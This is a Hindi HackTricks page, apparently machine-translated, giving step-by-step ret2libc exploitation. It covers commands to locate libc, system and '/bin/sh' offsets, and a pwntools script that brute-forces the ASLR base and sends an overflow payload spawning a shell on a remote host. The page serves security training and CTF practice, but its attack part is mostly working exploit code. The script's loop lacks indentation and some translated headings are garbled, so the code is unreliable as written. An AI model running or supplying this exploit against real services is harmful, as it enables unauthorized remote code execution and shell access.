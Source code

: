 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **Twitter** पर **फॉलो** करें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github repos में PRs सबमिट करके।

</details>


**यदि आपने एक वंलरेबल बाइनरी खोजा है और आपको लगता है कि आप इसे Ret2Lib का उपयोग करके एक्सप्लॉइट कर सकते हैं, तो यहाँ आप कुछ मूल चरण जो आप फॉलो कर सकते हैं, पा सकते हैं।**

# यदि आप **होस्ट** के **अंदर** हैं

## आप **lib**c का **पता** लगा सकते हैं
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
यदि आप जांचना चाहते हैं कि ASLR libc का पता कैसे बदल रहा है, तो आप निम्नलिखित कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## प्रणाली कार्य का ऑफसेट प्राप्त करें
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## "/bin/sh" का ऑफसेट प्राप्त करें
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

यदि प्रक्रिया हर बार जब आप इसके साथ बात करते हैं (नेटवर्क सर्वर) एक **बच्चा** बनाती है तो कोशिश करें कि आप उस फ़ाइल को **पढ़ें** (संभावना है कि आपको रूट होने की आवश्यकता होगी)।

यहाँ आप **सटीक रूप से देख सकते हैं कि प्रक्रिया के अंदर libc कहाँ लोड हो रहा है** और **प्रक्रिया के प्रत्येक बच्चे के लिए कहाँ लोड होने जा रहा है**।

![](<../../.gitbook/assets/image (95).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का बेस पता होगा)

## gdb-peda का उपयोग

gdb-peda का उपयोग करके **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **"/bin/sh"** का पता लगाएं:
```
p system
p exit
find "/bin/sh"
```
# ASLR को उमकरना

आप libc के एब्स पते को ब्रूटफोर्स करने का प्रयास कर सकते हैं।
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# कोड
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** पर **फॉलो** करें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
